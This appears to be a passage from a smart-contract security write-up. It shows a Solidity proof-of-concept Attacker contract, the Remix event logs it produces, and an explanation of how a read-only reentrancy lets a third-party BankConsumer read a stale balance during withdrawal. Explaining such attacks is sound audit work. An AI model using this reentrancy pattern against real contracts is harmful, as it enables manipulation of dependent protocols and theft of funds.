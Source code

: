 ```javascript
contract Attacker {
    event Checkpoint(uint256 balance);

    Bank private bank;
    BankConsumer private consumer;

    constructor(address _bank, address _consumer) payable {
        bank = Bank(_bank);
        consumer = BankConsumer(_consumer);
    }

    function attack() public {
        emit Checkpoint(consumer.getBalance(address(this)));
        bank.deposit{value: 1 ether}();
        bank.withdraw();
        emit Checkpoint(consumer.getBalance(address(this)));
    }

    receive() external payable  {
        emit Checkpoint(consumer.getBalance(address(this)));
        // more malicious code here
    }
}
```
The Attacker contract records Checkpoint events, illustrating that the balances visible to the `BankConsumer` contract are outdated. When the system is set up in `Remix`, and the attack function is executed, the following events are logged by the Attacker contract:

```javascript
[
    {
        "from": "0xE3Ca443c9fd7AF40A2B5a95d43207E763e56005F",
        "topic": "0xde5ae8a37da230f7df39b8ea385fa1ab48e7caa55f1c25eaaef1ed8690f36998",
        "event": "Checkpoint",
        "args": {
            "0": "0",
            "balance": "0"
        }
    },
    {
        "from": "0xE3Ca443c9fd7AF40A2B5a95d43207E763e56005F",
        "topic": "0xde5ae8a37da230f7df39b8ea385fa1ab48e7caa55f1c25eaaef1ed8690f36998",
        "event": "Checkpoint",
        "args": {
            "0": "1000000000000000000",
            "balance": "1000000000000000000"
        }
    },
    {
        "from": "0xE3Ca443c9fd7AF40A2B5a95d43207E763e56005F",
        "topic": "0xde5ae8a37da230f7df39b8ea385fa1ab48e7caa55f1c25eaaef1ed8690f36998",
        "event": "Checkpoint",
        "args": {
            "0": "0",
            "balance": "0"
        }
    }
]
```
The second Checkpoint event indicates that, during the `receive` function, the `Bank` contract still presents a `balance` of 1 ETH for the Attacker contract address despite the funds having been transferred to the attacker. This outdated information can be manipulated to mislead third-party infrastructure building on the Bank contract, such as `BankConsumer`.
